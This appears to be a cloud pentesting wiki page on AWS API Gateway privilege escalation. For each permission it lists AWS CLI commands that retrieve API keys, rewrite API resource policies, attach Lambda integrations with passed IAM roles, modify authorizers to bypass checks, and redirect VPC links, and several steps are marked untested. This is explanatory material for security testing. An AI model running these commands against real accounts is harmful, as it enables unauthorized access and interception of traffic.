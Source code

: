 # AWS - Apigateway Privesc

## Apigateway

For more information check:

[[../aws-services/aws-api-gateway-enum.md]]

### `apigateway:POST`

With this permission you can generate API keys of the APIs configured (per region).

```bash
aws --region <region> apigateway create-api-key
```

**Potential Impact:** You cannot privesc with this technique but you might get access to sensitive info.

### `apigateway:GET`

With this permission you can get generated API keys of the APIs configured (per region).

```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```

**Potential Impact:** You cannot privesc with this technique but you might get access to sensitive info.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

With these permissions it's possible to modify the resource policy of an API to give yourself access to call it and abuse potential access the API gateway might have (like invoking a vulnerable lambda).

```bash
aws apigateway update-rest-api \
    --rest-api-id api-id \
    --patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```

**Potential Impact:** You, usually, won't be able to privesc directly with this technique but you might get access to sensitive info.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

> [!NOTE]
> Need testing

An attacker with the permissions `apigateway:PutIntegration`, `apigateway:CreateDeployment`, and `iam:PassRole` can **add a new integration to an existing API Gateway REST API with a Lambda function that has an IAM role attached**. The attacker can then **trigger the Lambda function to execute arbitrary code and potentially gain access to the resources associated with the IAM role**.

```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```

**Potential Impact**: Access to resources associated with the Lambda function's IAM role.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

> [!NOTE]
> Need testing

An attacker with the permissions `apigateway:UpdateAuthorizer` and `apigateway:CreateDeployment` can **modify an existing API Gateway authorizer** to bypass security checks or to execute arbitrary code when API requests are made.

```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```

**Potential Impact**: Bypassing security checks, unauthorized access to API resources.

### `apigateway:UpdateVpcLink`

> [!NOTE]
> Need testing

An attacker with the permission `apigateway:UpdateVpcLink` can **modify an existing VPC Link to point to a different Network Load Balancer, potentially redirecting private API traffic to unauthorized or malicious resources**.

```bash
VPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```

**Potential Impact**: Unauthorized access to private API resources, interception or disruption of API traffic.

